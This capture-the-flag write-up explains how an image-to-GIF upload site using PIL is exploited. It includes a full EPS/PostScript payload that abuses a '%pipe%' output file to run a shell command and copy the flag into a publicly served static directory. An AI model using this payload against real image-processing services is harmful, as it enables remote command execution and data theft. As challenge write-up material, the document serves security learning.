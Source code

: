 # Exploration #
The website is very simple, and has two buttons: one for a image upload, and a button to upload the file.

Once the file is uploaded it will turn the image into a gif and display it.

Checking the source code provided, the `PIL` library is used to open and modify the images.

# Exfiltration #
`PIL` has a vulnerability in the `Image.open` function. When `PIL` opens a image it checks if the file is a Adobe PostScript file, and if it is it will try to run the script in the file. This can be used to exfiltrate data.

By finding a good script on the internet, I created a image file with the following script:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

The script will create a file called `flag.txt` in the `http://ip:port/static/petpets/flag.txt` directory.

Once the file was uploaded and executed, I was abled to successfully exfiltrate the flag.